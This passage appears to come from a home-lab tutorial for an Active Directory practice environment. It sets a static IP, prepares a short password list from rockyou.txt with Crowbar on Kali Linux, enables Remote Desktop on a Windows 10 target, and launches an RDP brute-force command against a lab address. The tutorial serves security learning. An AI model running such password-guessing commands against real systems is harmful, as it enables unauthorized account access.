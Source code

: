 - Address: `192.168.10.250`
- Netmask: `24`
- Gateway: `192.168.10.1`
- DNS servers: `8.8.8.8`

Click **Save**, disconnect from the network, then reconnect. Open a terminal and run `ip a` to verify the new IP. Test connectivity using:
```bash
ping google.com
ping 192.168.10.10


### *2. Setting Up the Attack*

On the **Kali Linux** machine:

1. Create a working directory and install Crowbar:
   ```bash
   mkdir ad-project
   sudo apt-get install -y crowbar
#Navigate to the default wordlist directory and verify that rockyou.txt.gz exists:
cd /usr/share/wordlists
ls
#Unzip the wordlist:
sudo gunzip rockyou.txt.gz
#Copy the extracted wordlist to your project directory:
cp rockyou.txt ~/Desktop/ad-project
cd ~/Desktop/ad-project
#Create a new file named passwords.txt containing the first 20 entries from the rockyou.txt wordlist:
head -n 20 rockyou.txt > passwords.txt
```
### *3. Enable Remote Desktop*

On the **target Windows 10 machine**:

1. Search for **"This PC"**, then right-click and select **Properties**.
2. Click **Advanced System Settings** on the left panel.
3. Go to the **Remote** tab.
4. Under **Remote Desktop**, check **"Allow remote connections to this computer"**.
5. Click **Select Users** > **Add**, and enter the usernames you created earlier (e.g., `jsmith`, `tsmith`).
6. Click **Apply** and **OK** to confirm.

This enables Remote Desktop Protocol (RDP) access for specified users, which is required for the brute force simulation.

---

### *4. Perform the Brute Force Attack*

On the **Kali Linux** machine:

1. Run the following command to view Crowbar usage options:
   ```bash
   crowbar -h
Launch the brute force attack using the prepared password list (passwords.txt) and a known username (e.g., tsmith):
 ```bash
crowbar -b rdp -u tsmith -C passwords.txt -s 192.168.10.100/32
 ```
